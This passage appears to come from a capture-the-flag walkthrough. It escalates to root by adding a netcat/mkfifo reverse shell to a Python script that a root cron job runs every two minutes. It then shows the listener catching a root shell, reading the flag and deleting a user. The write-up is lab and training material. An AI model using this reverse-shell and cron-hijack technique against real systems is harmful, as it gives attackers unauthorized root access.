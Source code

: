 ```
kidman@evilwithin:~$ cat /etc/crontab 

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

*/2 * * * * root python3 /place/.the_script_found.py
```
Bingo! 2 minutes of patience!

Ok now add reverse shell for action

```
import os

os.system("mkfifo /tmp/kirxhbg; nc 10.8.226.203 4444 0</tmp/kirxhbg | /bin/sh >/tmp/kirxhbg 2>&1; rm /tmp/kirxhbg")
```
Now we are supreme

```
└──╼ $nc -lnvp 4444
listening on [any] 4444 ...
connect to [10.0.2.15] from (UNKNOWN) [10.0.2.2] 57736
id
uid=0(root) gid=0(root) groups=0(root)

```

First things first

```
cat root.txt
get_root_flag_here
```

then the extra

```
cat readMe.txt


 /\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\
|  From Sebastian :                                                                     |
|                                                                                       |
|  You have one final task ... Help me to defeat ruvik !!!                              |
|                                                                                       |
 \/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/


```

yeah ok? no one likes this guy anyway

```
deluser ruvik
Removing user `ruvik' ...
Warning: group `ruvik' has no more members.
Done.
```

